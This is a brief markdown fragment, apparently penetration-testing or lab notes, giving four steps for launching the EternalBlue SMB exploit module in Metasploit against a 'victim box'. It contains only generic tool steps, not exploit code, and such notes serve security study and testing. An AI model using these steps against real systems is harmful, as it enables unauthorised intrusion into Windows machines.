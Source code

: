 ## Metasploit

* start up metasploit
* use windows/smb/ms17_010_eternalblue
* set RHOSTS to victim box
* run the exploit
